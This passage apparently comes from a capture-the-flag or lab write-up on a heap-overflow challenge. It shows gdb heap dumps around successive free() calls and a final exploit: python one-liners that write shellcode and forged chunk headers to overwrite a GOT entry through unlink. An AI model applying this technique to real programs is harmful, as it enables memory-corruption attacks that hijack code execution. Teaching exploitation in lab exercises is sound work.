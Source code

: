 Second `free` call
```bash
0x804c000:	0x00000000	0x00000029	0x048864b8	0x00d0ff08
0x804c010:	0x0804b11c	0x00000000	0x00000000	0x00000000
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804c030:	*0x00000000	0x42424242	0x42424242	0x42424242
0x804c040:	0x42424242	0x42424242	0x42424242	0x42424242
0x804c050:	0x42424242	*0x00000061	*0x0804b194	*0x0804b194
0x804c060:	0x43434343	0x43434343	0x43434343	0x43434343
0x804c070:	0x43434343	0x43434343	0x43434343	0x43434343
0x804c080:	0x43434343	0x43434343	0x43434343	0x43434343
0x804c090:	0x43434343	0x43434343	0x43434343	0x43434343
0x804c0a0:	0x43434343	0x43434343	0x43434343	0x43434343
0x804c0b0:	*0x00000060	0xfffffffc	0xfffffffc	0x0804b11c
0x804c0c0:	0x0804c008	0x00000000	0x00000000	0x00000000
0x804c0d0:	0x00000000	0x00000000	0x00000000	0x00000000
```

Third `free` call
```bash
0x804c000:	0x00000000	0x00000029	*0x0804c028	0x00d0ff08
0x804c010:	0x0804b11c	0x00000000	0x00000000	0x00000000
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804c030:	*0x00000000	0x42424242	0x42424242	0x42424242
0x804c040:	0x42424242	0x42424242	0x42424242	0x42424242
0x804c050:	0x42424242	*0x00000061	*0x0804b194	*0x0804b194
0x804c060:	0x43434343	0x43434343	0x43434343	0x43434343
0x804c070:	0x43434343	0x43434343	0x43434343	0x43434343
0x804c080:	0x43434343	0x43434343	0x43434343	0x43434343
0x804c090:	0x43434343	0x43434343	0x43434343	0x43434343
0x804c0a0:	0x43434343	0x43434343	0x43434343	0x43434343
0x804c0b0:	*0x00000060	0xfffffffc	0xfffffffc	0x0804b11c
0x804c0c0:	0x0804c008	0x00000000	0x00000000	0x00000000
0x804c0d0:	0x00000000	0x00000000	0x00000000	0x00000000
```

Well we shouldn't place the "shellcode" exactly on address `0x804c008` because eventually after the third `free(a)` call `0x804c008` will get replaced with `0x0804c028` which is just a pointer to next/second heap chunk, `0x0804c028=0x00000000`.


### second attempt: successful exploit
Here is the revision script, this is the final solution:
```bash
python -c "print('A'*12+'\xB8\x64\x88\x04\x08\xFF\xD0')" > /tmp/a

python -c "print('B'*36+'\x65')" > /tmp/b

python -c "print('C'*92+'\xfc\xff\xff\xff\xfc\xff\xff\xff'+'\x1c\xb1\x04\x08'+'\x14\xc0\x04\x08')" > /tmp/c

```

After the last `free` call, `*` is where our shellcode lies:
```bash
0x804c000:	0x00000000	0x00000029	0x0804c028	0x41414141
0x804c010:	0x41414141	*0x048864b8	*0x00d0ff08	0x0804b11c
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804c030:	0x00000000	0x42424242	0x42424242	0x42424242
0x804c040:	0x42424242	0x42424242	0x42424242	0x42424242
0x804c050:	0x42424242	0x00000061	0x0804b194	0x0804b194
0x804c060:	0x43434343	0x43434343	0x43434343	0x43434343
0x804c070:	0x43434343	0x43434343	0x43434343	0x43434343
0x804c080:	0x43434343	0x43434343	0x43434343	0x43434343
0x804c090:	0x43434343	0x43434343	0x43434343	0x43434343
0x804c0a0:	0x43434343	0x43434343	0x43434343	0x43434343
```